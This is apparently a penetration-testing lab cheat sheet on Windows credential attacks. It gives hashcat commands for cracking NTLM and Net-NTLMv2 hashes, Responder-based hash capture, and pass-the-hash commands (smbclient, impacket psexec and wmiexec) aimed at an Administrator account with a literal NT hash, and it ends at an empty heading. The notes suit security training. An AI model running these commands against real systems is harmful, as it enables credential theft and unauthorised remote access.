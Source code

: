 ### Cracking NTLM

extract ntlm hash using mimkatz
crack with hashcat
hashcat -m 1000 steve.hash rockyou.txt -r rules\best64.rule --force

### Passing NTLM

smbclient
crackmapexec
psexec
wmiexec

smbclient \\\\192.168.221.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.221.212


impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.221.212

### Cracking Net-NTLMv2

extract hash using responder and any smb service with false share
capture the hash and crack using hashcat
hashcat -m 5600 sam.hash rockyou.txt --force

### Passing Net-NTLMv2

